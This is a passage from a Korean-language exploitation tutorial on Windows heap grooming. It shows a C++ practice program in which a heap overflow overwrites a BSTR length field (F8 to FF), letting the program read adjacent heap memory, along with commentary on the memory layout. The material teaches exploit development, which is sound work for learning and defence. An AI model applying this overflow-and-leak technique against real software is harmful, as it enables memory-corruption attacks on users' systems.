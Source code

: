 
```cpp
| CHUNK[0] | CHUNK[1] | CHUNK [2] | BSTR [0] | SomeObejct | CHUNK[5] | ...
```

실행결과에서 해제한 chunk[3]에 BSTR[0] 이, chunk[4]에는 SomeObject 포인터 배열이 할당된 것을 확인할 수 있습니다. 

![pwncoolsexy-part3/Untitled%203.png](pwncoolsexy-part3/Untitled%203.png)

메모리 덤프에서 봐도 예쁘게 잘 정렬됐네요~

heap overflow를 이용해 chunk[2]에서 BSTR 헤더의 length 필드의 값을 `F8` → `FF` 로 수정하면 다음 chunk의 데이터를 읽을 수 있습니다.

```cpp
... 
UINT strSize = SysStringByteLen(bStrings[0]);
printf("Original String size: %d\n", (int)strSize);
printf("Overflowing allocation 2\n");

char evilString[] =
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "BBBBBBBBBBBBBBBB"
        "CCCCDDDD"
        "\xff\x00\x00\x00";
memcpy(allocations[2], evilString, sizeof(evilString));
```